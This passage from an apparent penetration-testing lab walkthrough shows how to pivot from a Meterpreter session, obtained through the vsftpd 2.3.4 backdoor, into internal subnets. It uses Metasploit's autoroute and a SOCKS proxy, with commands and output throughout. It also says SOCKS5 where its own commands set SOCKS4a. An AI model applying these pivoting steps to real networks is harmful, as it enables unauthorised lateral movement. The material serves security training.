 First, we need to set up a route in Metasploit for this new subnet:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SUBNET 172.25.0.0
SUBNET => 172.25.0.0
msf6 post(multi/manage/autoroute) > set NETMASK 24
NETMASK => 24
msf6 post(multi/manage/autoroute) > set SESSION 2
SESSION => 2
msf6 post(multi/manage/autoroute) > run

[*] Running module against 172.24.0.2
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.24.0.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 172.25.0.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.24.0.0         255.255.255.0      Session 2
   172.25.0.0         255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
```

Now Metasploit knows to route any traffic for `172.25.0.0/24` through our Meterpreter session,
giving us access to the internal network from Metasploit running on our attacker machine.

However, this is only usable within Metasploit as it's set up in Metasploit's routing tables.
To make this route accessible to all our tools outside Metasploit, we can set up a SOCKS proxy like so:

```
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 1.

[*] Starting the SOCKS proxy server
```

Now we have a SOCKS5 proxy running on our local machine (which by default listens on `0.0.0.0:1080`).
The last step is to add this proxy to our Proxychains4 configurations so we can use it with our other applications.
Edit your configuration at `/etc/proxychains4.conf` using an editor of your choice and insert your new proxy at the bottom:

```
strict_chain
#quiet_mode
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks4 127.0.0.1 1080
```
